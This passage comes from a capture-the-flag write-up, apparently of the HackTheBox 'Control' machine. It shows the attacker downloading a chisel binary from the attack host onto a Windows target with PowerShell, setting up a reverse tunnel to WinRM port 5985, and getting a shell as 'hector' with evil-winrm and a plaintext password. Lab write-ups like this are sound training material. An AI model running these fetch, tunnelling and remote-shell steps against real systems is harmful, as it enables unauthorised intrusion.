I then `cd` into the `C:\windows\system32\spool\drivers\color` directory on the target and download the file using:

```powershell
iwr "http://10.10.14.63/c.exe" -OutFile c.exe
```

Next, I start the chisel server on my attack machine as such:

```bash
chisel server -p 4545 --reverse
```

I then connect from the target to my server and establish the tunnel:

```cmd
.\c.exe client 10.10.14.63:4545 R:5985:127.0.0.1:5985
```

On my server I receive the connection and the tunnel is established:

![tunnel-34](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/tunnel-34.png)


From here I use `evil-winrm` to get a shell as `hector`:

```bash
evil-winrm -i 127.0.0.1 -u hector -p 'l33th4x0rhector'
```

![hector-36](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Control/img/hectro-36.png)
